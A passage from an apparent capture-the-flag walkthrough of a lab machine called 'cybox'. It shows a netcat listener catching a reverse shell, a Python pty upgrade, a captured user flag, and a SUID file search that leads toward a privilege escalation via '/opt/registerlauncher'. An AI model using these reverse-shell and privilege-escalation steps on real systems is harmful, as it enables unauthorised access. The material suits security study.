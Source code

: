 ```
connect to [192.168.0.107] from (UNKNOWN) [192.168.0.108] 42864
/bin/sh: 0: can't access tty; job control turned off
$ ls
index.php
styles
styles.php
$ python -c 'import pty;pty.spawn("/bin/bash")'
python: /opt/bitnami/common/lib/libz.so.1: no version information available (required by python)
daemon@cybox:/opt/bitnami/apache2/htdocs/monitor/admin$ ^Z
[1]+  Stopped                 sudo nc -nvlp 443
┌─[✗]─[hitesh@parrot]─[~]
└──╼ $stty raw -echo
┌─[hitesh@parrot]─[~]
└──╼ $sudo nc -nvlp 443

daemon@cybox:/opt/bitnami/apache2/htdocs/monitor/admin$
```
# User Flag
```
daemon@cybox:/home/cybox$ cat user.txt 
d85da08f1a31ef96fb6d4f608611bca2
```
# Privesc
Looking at SUID files, `/opt/registerlauncher` seem suspicious to me.
```
daemon@cybox:/$ find / -perm -4000 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/at
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/i386-linux-gnu/lxc/lxc-user-nic
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/opt/registerlauncher
/bin/mount
/bin/ping
/bin/fusermount
/bin/umount
/bin/ping6
/bin/su
/bin/ntfs-3g
```
The program just seems to be running `/opt/register` binaray.
```
daemon@cybox:/opt$ strings registerlauncher 
strings: /opt/bitnami/common/lib/libz.so.1: no version information available (required by /usr/lib/i386-linux-gnu/libbfd-2.26.1-system.so)
/lib/ld-linux.so.2
Tv u
libc.so.6
_IO_stdin_used
setuid
```